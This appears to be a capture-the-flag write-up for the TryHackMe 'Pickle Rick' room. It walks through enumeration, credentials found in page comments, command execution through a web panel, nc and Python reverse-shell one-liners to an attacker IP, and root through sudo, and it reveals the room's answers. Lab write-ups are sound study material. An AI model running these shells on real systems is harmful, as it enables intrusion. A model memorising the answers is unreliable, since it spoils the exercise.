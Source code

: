 # Pickle Rick (THM)

- https://tryhackme.com/room/picklerick
- March 2, 2023
- easy

---

## Enumeration

### Nmap

1. 22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))
   - server - Apache/2.4.18
   - title - Rick is sup4r cool
3. 458/tcp filtered appleqtc no-response
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- first access the web page as no username is known yet
- http://$IP - comment

```
Note to self, remember username!

    Username: R1ckRul3s
```

- http://$IP/robots.txt -> `Wubbalubbadubdub`
- http://$IP/assets/

![](images/2023-03-02-14-09-43.png)

- brute force with common.txt

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e .php,.html,.txt
```

```
assets     
denied.php 
index.html 
index.html 
login.php  
portal.php 
robots.txt 
```

- try to login with username and password may be from robots.txt ?
- yes, it redirect to portal.php with command panel
- only portal.php has access, and others show `Only the REAL rick can view this page.`
- under form found a comment

```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```
- nothing special, can't decrypt with base64

- from command panel, some linux command can execute, but some are disabled
- `ls /home` -> rick and ubuntu
- cat command is disable, use with less
- `pwd` - `/var/www/html`
- `ls -la` -

```
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

- first ingredient

```sh
less Sup3rS3cretPickl3Ingred.txt
```

- second ingredient

```sh
less /home/rick/second\ ingredients
```

- `sudo -l` as www-data user

```
Matching Defaults entries for www-data on ip-10-10-72-194.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-72-194.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

## User Access

- try to get reverse shell
- listen with nc at port 4242 at your attack machine

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- not success

```python
export RHOST="10.11.8.57";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

- get shell access for www-data
- transfer linpeas.sh from your attack machine and get from tmp foler inside reverse shell and run linpeas.sh
- Interesting findings

```
- Vulnerable to CVE-2021-4034
- SUID
85     40 -rwsr-xr-x   1 root     root               40128 May 16  2017 /bin/su
```

## Root Access

- then change `sudo su` to become root

```sh
www-data@ip-10-10-252-85:/tmp$ sudo su
root@ip-10-10-252-85:/tmp# whoami
root
root@ip-10-10-252-85:/tmp# cd /root
root@ip-10-10-252-85:~# ls
3rd.txt  snap
root@ip-10-10-252-85:~# cat 3rd.txt
3rd ingredients: fleeb juice
```

